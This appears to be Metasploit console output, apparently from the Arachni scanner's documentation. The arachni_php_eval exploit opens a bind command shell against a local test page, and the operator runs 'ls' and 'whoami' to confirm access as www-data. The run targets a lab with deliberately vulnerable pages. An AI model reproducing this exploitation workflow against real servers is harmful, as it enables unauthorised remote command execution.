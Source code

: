     [*] Sending HTTP request for /~zapotek/tests/forms/eval.php
    [*] Started bind handler
    [*] Command shell session 17 opened (127.0.0.1:40351 -> 127.0.0.1:13200) at 2010-10-28 18:53:12 +0100

    ls
    csrf.php
    eval.php
    login.php
    os_command.php
    recon
    rfi.php
    sqli.php
    xss.php

    whoami
    www-data
    ^C
    Abort session 17? [y/N]  y

    [*] Command shell session 17 closed.  Reason: User exit
    msf exploit(arachni_php_eval) >
